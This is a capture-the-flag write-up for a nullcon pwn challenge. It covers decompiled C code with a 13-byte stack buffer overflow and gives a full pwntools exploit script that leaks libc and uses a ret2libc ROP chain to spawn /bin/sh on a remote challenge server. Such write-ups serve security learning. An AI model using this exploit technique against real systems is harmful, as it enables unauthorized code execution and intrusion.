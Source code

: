 ```yaml
---
date: 2025-09-02 17:03:00
layout: post
title: nullconctf write up
subtitle: trying Capture The Flag in the middle of the night
description: The challenge is fun :o
image: https://images.alphacoders.com/134/1343999.png
optimized_image: https://images.alphacoders.com/134/1343999.png
category: ctf
tags:
  - pwn
  - bof
  - foren
  - crypto
author: --
---
```


At night I was bored and tried CTF.

# Fotispy1
## Description
> Spotify with a GUI? A true hacker only needs the terminal.

## Initial Analysis
![Gambar 1]({{ site.baseurl }}/assets/img/uploads/nullconctf/1.png)
In this challenge, we can see that there is no canary and no pie, making it easier for us to exploit it.

## Code Analysis
### func to add song
```c
int sub_401690()
{
  __int64 v0; // rax
  _QWORD *v2; // [rsp+8h] [rbp-38h]
  _QWORD *v3; // [rsp+10h] [rbp-30h]
  int v4; // [rsp+1Ch] [rbp-24h]
  int v5; // [rsp+20h] [rbp-20h]
  int v6; // [rsp+24h] [rbp-1Ch]
  void *v7; // [rsp+28h] [rbp-18h]
  void *v8; // [rsp+30h] [rbp-10h]
  const char *v9; // [rsp+38h] [rbp-8h]

  if ( byte_404050 == -1 )
  {
    LODWORD(v0) = puts("[-] No user has logged in yet.");
  }
  else
  {
    v9 = (const char *)calloc(0x100uLL, 1uLL);
    v8 = calloc(0x100uLL, 1uLL);
    v7 = calloc(0x100uLL, 1uLL);
    printf("[DEBUG] %p\n", &printf);
    printf("[~] Please enter a song title: ");
    v6 = sub_401207(v9, 256LL);
    printf("[~] Please enter a who %s is from: ", v9);
    v5 = sub_401207(v7, 256LL);
    printf("[~] Please enter which album %s is on: ", v9);
    v4 = sub_401207(v8, 256LL);
    v3 = calloc(0x30uLL, 1uLL);
    v3[4] = v8;
    *((_DWORD *)v3 + 10) = v4;
    *v3 = v9;
    *((_DWORD *)v3 + 2) = v6;
    v3[2] = v7;
    *((_DWORD *)v3 + 6) = v5;
    v2 = calloc(0x10uLL, 1uLL);
    v2[1] = v3;
    *v2 = *(_QWORD *)(qword_4040A0[(unsigned __int8)byte_404050] + 16LL);
    v0 = qword_4040A0[(unsigned __int8)byte_404050];
    *(_QWORD *)(v0 + 16) = v2;
  }
  return v0;
}
```
### func to view song
```c
int sub_40185D()
{
  __int64 *v0; // rax
  char dest[13]; // [rsp+Bh] [rbp-15h] BYREF
  __int64 *v3; // [rsp+18h] [rbp-8h]

  if ( byte_404050 == -1 )
  {
    LODWORD(v0) = puts("[-] No user has logged in yet.");
  }
  else
  {
    v3 = *(__int64 **)(qword_4040A0[(unsigned __int8)byte_404050] + 16LL);
    memset(dest, 0, sizeof(dest));
    LODWORD(v0) = puts("[~] Your favorites:");
    while ( v3 )
    {
      memcpy(dest, *(const void **)v3[1], *(unsigned int *)(v3[1] + 8));
      printf("    - Song: %s", dest);
      memcpy(dest, *(const void **)(v3[1] + 16), *(unsigned int *)(v3[1] + 24));
      printf(" - %s", dest);
      memcpy(dest, *(const void **)(v3[1] + 32), *(unsigned int *)(v3[1] + 40));
      printf(" - %s\n", dest);
      v0 = (__int64 *)*v3;
      v3 = (__int64 *)*v3;
    }
  }
  return (int)v0;
}
```
in function add song we can add a buffer up to 256, and in function view song there's a memcpy
```c
memcpy(dest, *(const void **)v3[1], *(unsigned int *)(v3[1] + 8));
```
what does that mean ? var dest The dest variable is only 13 bytes in size, while memcpy can add more than 256 buffers, causing a buffer overflow.

## solve.py
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF(args.EXE or 'fotispy1')
context.terminal = ['wt.exe','wsl.exe']
libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOT:
        return remote('52.59.124.14', 5191)
    else:
        return process([elf.path] + argv, *a, **kw)

gdbscript = '''
b main
continue
'''.format(**locals())

def m(i): p.sendlineafter(b'[E]: ', str(i).encode())

p = start()

DEST_LEN = 13
OFF_V3   = 13      # [rbp-8]
OFF_RBP  = 21      # saved RBP
OFF_RIP  = 29      # saved RIP

QWORD_4040A0 = 0x4040A0
safe_v3 = p64(QWORD_4040A0 + 8*5)   # points to a zero qword; *v3==0 ends loop cleanly
print(hex(QWORD_4040A0 + 8*5))

# Register and login
m(0); p.sendlineafter(b'username: ', b'u'); p.sendlineafter(b'password: ', b'p')
m(1); p.sendlineafter(b'username: ', b'u'); p.sendlineafter(b'password: ', b'p')

# Add song (album overflows)
m(2)
p.recvuntil(b'[DEBUG] ')
leak = int(p.recvline().strip(), 16)
log.info(f'printf& leak: {hex(leak)}')
libc.address = leak - libc.sym.printf
log.info(f'libc leak: {hex(libc.address)}')

rop = ROP(libc)
rop.raw(rop.ret.address)
rop.system(next(libc.search(b'/bin/sh\00')))

pad_to_v3  = b'A'*OFF_V3
after_v3   = OFF_RBP - OFF_V3 - 8      # bytes between v3 (8 bytes) and saved RBP
after_rbp  = OFF_RIP - OFF_RBP - 8     # bytes between saved RBP (8 bytes) and saved RIP

payload = pad_to_v3
payload += safe_v3                     # overwrite v3 ([rbp-8])
payload += b'B'*after_v3
payload += b'C'*8                      # saved RBP (dummy)
payload += b'D'*after_rbp
# payload += p64(0x000000000040101a)
payload += rop.chain()

p.sendlineafter(b'title: ', b'a')
p.sendlineafter(b'is from: ', b'a')
p.sendlineafter(b'is on: ', payload)

# Trigger the overflow and return
m(3)
p.interactive()
```
and we got the flag
![Gambar 1]({{ site.baseurl }}/assets/img/uploads/nullconctf/2.png)
